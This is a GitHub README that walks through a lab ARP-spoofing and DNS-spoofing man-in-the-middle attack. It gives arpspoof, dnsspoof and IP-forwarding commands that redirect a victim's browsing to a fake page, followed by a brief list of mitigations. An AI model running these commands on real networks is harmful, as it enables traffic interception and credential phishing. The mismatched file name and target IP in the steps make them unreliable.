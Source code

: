 # DNS-Spoofing-Attack-Walkthrough

 📌 Introduction
This project demonstrates a **Man-in-the-Middle (MITM) attack using ARP spoofing and DNS spoofing** on a local network.  
The attacker (Kali Linux) poisons the ARP cache of both the **victim (Windows 7)** and the **gateway (router)**, intercepts DNS requests, and redirects them to a fake website hosted on the attacker machine using **Apache2**.  

⚠️ **Disclaimer**: This project is for **educational purposes only** in a controlled lab environment. Do not attempt on real networks.  

---

## 🖥️ Lab Setup
- **Attacker**: Kali Linux  
- **Victim**: Windows 7  
- **Gateway/Router** 
- **Network**: VMware/VirtualBox Host-only or NAT  

---

## ⚙️ Steps

### 1. Enable IP Forwarding

echo 1 > /proc/sys/net/ipv4/ip_forward

This allows Kali to forward traffic between victim and gateway.

---

2. ARP Spoofing

Poison victim’s ARP table (tell victim that attacker = router):

arpspoof -i eth0 -t 192.168.152.8 192.168.152.2


Poison router’s ARP table (tell router that attacker = victim):

arpspoof -i eth0 -t 192.168.152.2 192.168.152.50

---

3. Set Up Fake Website

Start Apache2 web server:

service apache2 start


Place your fake page inside:

/var/www/html/index.html

---

4. Create DNS Spoof File

Create dns.conf file in your home directory:

192.168.152.50    *


This redirects all DNS requests to attacker’s IP.

5. Run DNS Spoof
   
dnsspoof -i eth0 -f dns.com


📸 Example Output:

dnsspoof: listening on eth0 [udp dst port 53 and not src 192.168.152.50]

---

6. Victim Browsing

When the victim (Win7) visits any website, DNS request is spoofed → redirected to attacker’s web server.

---

📝 Results

Victim’s traffic successfully redirected.

Attacker controls DNS resolution.

Fake webpage displayed to victim.

---

🔒 Mitigation

Use HTTPS with DNSSEC

Enable static ARP entries

Use IDS/IPS tools like Snort

Avoid untrusted networks

---

📷 Screenshots

ARP Spoof terminal → ./images/arpspoof.png

DNS Spoof terminal → ./images/dnsspoof.png

Apache running → ./images/apache.png

Victim spoofed webpage → ./images/victim_browser.png
